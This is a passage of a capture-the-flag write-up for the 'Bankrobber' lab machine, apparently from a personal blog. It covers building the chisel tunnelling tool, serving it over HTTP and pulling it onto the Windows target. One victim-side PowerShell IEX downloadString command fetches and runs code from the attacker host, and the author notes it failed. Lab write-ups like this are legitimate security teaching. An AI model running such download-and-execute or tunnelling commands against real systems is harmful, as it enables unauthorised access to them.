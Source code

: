 <br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_52.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_53.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_54.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I'm going to use **[chisel](https://github.com/jpillora/chisel){:target="_blank"}** to create a tunnel to port **910** of the victim machine, for this I will first compile the binary after downloading the project from **Github** on my machine, I also compress it with `upx` to save space. With `systemInfo` I get the architecture of the machine and so I transfer the correct `chisel.exe` version, but also I will use an old version of it to avoid compatibility errors. After trying several methods to transfer files from a **Linux** OS machine to a **Windows** machine, I finally succeed and I can now access the **bankv2.exe** application from my local port **910**.

> **Attacker Machine**:

```bash
git clone https://github.com/jpillora/chisel
cd chisel
go build -ldflags '-s -w' .
du -hc chisel
upx chisel &>/dev/null
du -hc chisel
```

> **Victime Machine**:

```cmd
systemInfo
```

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/chisel_1.7.5_windows_amd64.gz chisel.exe.gz
gunzip chisel.exe.gz
file chisel.exe
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10/chisel.exe')"
# :(
```

> **Attacker Machine**:

```bash
md5sum chisel.exe
```

> **Victime Machine**:
